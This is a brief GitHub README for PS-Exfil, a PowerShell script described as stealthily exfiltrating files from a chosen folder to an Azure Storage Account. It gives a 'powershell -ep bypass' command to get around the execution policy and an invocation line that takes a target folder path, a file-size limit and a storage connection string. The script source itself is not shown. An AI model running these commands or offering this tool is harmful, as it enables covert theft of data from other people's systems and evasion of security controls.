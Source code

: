 # PS-Exfil

<p align="center"> <strong>
 PS-Exfil is a simple PowerShell script designed to automate the process of exfiltrating files to an Azure Storage Account. It operates slowly but stealthy.
 </strong>

## Usage
It's recommended to try and run the tool in a powershell session that can import non-signed scripts. This can be achieved by running 
```powershell
powershell -ep bypass
```
Then to run PS-Exfil
```powershell
.\PS-Exfil.ps1 -folderPath [PATH-TO=EXFIL] -maxFileSize [MAXIMUM-FILE-SIZE-TO-EXFIL] -connectionString [CONNECTION-STRING]
```


## Contact

[@_enigma146](https://twitter.com/_enigma146) - yoabuseini@gmail.com

Project Link: [https://github.com/yanalabuseini/PS-Exfil/tree/main](https://github.com/yanalabuseini/PS-Exfil/tree/main)
